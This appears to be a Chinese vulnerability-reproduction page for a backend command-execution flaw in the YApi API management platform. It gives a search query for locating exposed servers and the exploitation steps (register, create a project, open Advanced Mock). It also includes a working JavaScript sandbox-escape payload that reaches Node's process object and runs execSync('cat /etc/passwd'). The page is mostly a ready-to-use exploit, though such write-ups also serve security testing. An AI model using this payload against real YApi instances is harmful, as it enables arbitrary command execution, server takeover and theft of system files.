



YApi 接口管理平台 后台命令执行漏洞¶
漏洞描述¶
YApi 接口管理平台 后台存在命令执行漏洞，攻击者通过发送特定的请求可执行任意命令获取服务器权限
漏洞影响¶
YApi 接口管理平台
网络测绘¶
app="YApi"
漏洞复现¶
登录页面
首先需要注册账户并登录

添加项目，参数任意
创建后点击 高级Mock 输入如下Payload
const sandbox = this; // 获取Context
const ObjectConstructor = this.constructor; // 获取 Object 对象构造函数
const FunctionConstructor = ObjectConstructor.constructor; // 获取 Function 对象构造函数
const myfun = FunctionConstructor('return process'); // 构造一个函数，返回process全局变量
const process = myfun();
mockJson = process.mainModule.require("child_process").execSync("cat /etc/passwd").toString()

预览处点击项目链接
